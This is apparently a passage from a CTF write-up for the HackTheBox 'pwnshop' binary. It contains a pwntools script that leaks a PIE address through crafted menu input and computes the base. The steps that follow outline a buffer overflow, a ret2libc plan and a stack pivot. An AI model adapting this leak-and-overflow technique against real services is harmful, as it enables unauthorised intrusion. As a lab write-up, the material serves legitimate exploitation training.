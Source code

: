 
> SCRIPT

```py
from pwn import *
import os
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript="""
init-pwndbg
continue
""".format(**locals())

exe = './pwnshop'
elf = context.binary = ELF(exe, checksec=True)
# context.log_level = 'DEBUG'
context.log_level = 'INFO'

sh = start()
pause()
sh.sendlineafter(b'>', b'2')
sh.sendlineafter(b'?', b'a')

## LEAKING PIE
sh.sendlineafter(b'?', b'A' * 7) 
sh.recvline()
get = unpack(sh.recv(6) + b'\x00' * 2)
log.success('LEAKED PIE --> %#0x', get)

elf.address = get - 0x40c0 # 16576
log.info(f'PIE BASE --> {hex(elf.address)}')

sh.interactive()
```

4. Next, analyzing the buy option, we know we can do BOF but sadly the space is too small.

> BUY OPTION

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8b5b6c49-b20c-4ffd-b255-af1c1de0eac4)


5. Knowing there is no interesting function to jump to and NX is disabled, but there is BOF; we know the concept for this challenge is ret2libc.
6. But since the distance between RBP and RIP is too small, hence it's not enough for our payload, we need to do **stack pivot**.
